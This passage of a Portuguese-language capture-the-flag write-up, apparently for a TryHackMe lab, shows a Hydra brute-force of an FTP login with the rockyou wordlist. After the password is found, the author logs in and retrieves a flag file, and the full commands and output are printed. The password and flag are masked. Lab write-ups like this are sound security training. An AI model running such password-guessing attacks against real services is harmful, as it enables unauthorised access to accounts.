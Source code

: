 ### quinn
Com o usuário `quinn`, novamente usando Hydra, o ataque foi bem-sucedido e me revelou a senha:
```sh
┌──(c3n0r4㉿kali)-[~/tryhackme/room/netsecchallenge]
└─$ hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://10.10.26.196 -s 10021
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-13 18:13:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.26.196:10021/
[10021][ftp] host: 10.10.26.196   login: quinn   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-13 18:13:14
```

Fiz login, Dessa vez, ao listar os arquivos do diretório, encontrei um arquivo `ftp_flag.txt`:
```sh
┌──(c3n0r4㉿kali)-[~/tryhackme/room/netsecchallenge]
└─$ ftp 10.10.26.196 10021
Connected to 10.10.26.196.
220 (vsFTPd 3.0.5)
Name (10.10.26.196:c3n0r4): quinn
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /
ftp> ls -larth
229 Entering Extended Passive Mode (|||30398|)
150 Here comes the directory listing.
-rw-r--r--    1 1002     1002         3771 Sep 14  2021 .bashrc
-rw-r--r--    1 1002     1002          807 Sep 14  2021 .profile
-rw-r--r--    1 1002     1002          220 Sep 14  2021 .bash_logout
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
-rw-------    1 1002     1002          723 Sep 20  2021 .viminfo
drwxr-xr-x    2 1002     1002         4096 Sep 20  2021 .
drwxr-xr-x    2 1002     1002         4096 Sep 20  2021 ..
226 Directory send OK.
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
229 Entering Extended Passive Mode (|||30622|)
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
100% |*******************************************************************************************************************************************************|    18      119.57 KiB/s    00:00 ETA
226 Transfer complete.
18 bytes received in 00:00 (0.07 KiB/s)
ftp> exit
221 Goodbye.
```
E ao abrir o arquivo, encontrei a flag:
```sh                                                                                             
┌──(c3n0r4㉿kali)-[~/tryhackme/room/netsecchallenge]
└─$ cat ftp_flag.txt                                    
THM{************}
```
